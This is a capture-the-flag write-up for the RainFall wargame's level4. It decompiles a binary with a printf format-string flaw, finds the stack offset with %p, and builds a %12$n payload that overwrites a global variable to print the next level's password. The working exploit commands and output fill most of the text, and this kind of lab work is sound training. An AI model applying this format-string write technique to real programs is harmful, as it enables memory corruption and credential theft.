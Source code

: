 ## Step 1: Static & Dynamic Analysis

```c
int32_t p(char* arg1)
{
    return printf(arg1);
}

uint32_t n()
{
    void buf;
    fgets(&buf, 512, __bss_start);
    p(&buf);
    uint32_t m = m;
    
    if (m != 0x1025544)
        return m;
    
    return system("/bin/cat /home/user/level5/.pass");
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    return n();
}
```

### Explanation

The binary fills a `buffer` (`buf`) via `stdin` using `fgets()` and will print the password if the value `m` is equal to `0x1025544` (`16930116`).  
The function `p()` calls `printf()` and simply prints `buf`, making the binary vulnerable to a `format string attack`.  
Our goal is to overwrite the value of `m` to pass the check and print the password.

To overwrite `m`, we will find its address and determine its position on the stack relative to `printf()` arguments.

```asm
(gdb) info var
    0x08049810  m
``` 

Now, to find its position, we print stack addresses using the `%p` format specifier.

```python
level4@RainFall:~$ python -c "print('\x42\x42\x42\x42' + '%p ' * 15)" | ./level4 
BBBB
0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x42424242 0x25207025 0x70252070 0x20702520
```

We notice that `0x42424242` is the 12th argument on the stack.

Now, we are going to use the `$n` `printf()` format. It is used to write the number of printed characters combined with `%12`, which allows us to specify an address where the value will be written.

Concretely, our payload will first contain the address of `m`, followed by `16930112` random characters, and then `%12$n`, which writes the total number of printed characters (`4` + `16930112`, equivalent to `0x1025544` in hexa) to the 12th argument on the stack (`0x08049810`).

## Step 2: Exploiting the Binary

```bash
level3@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
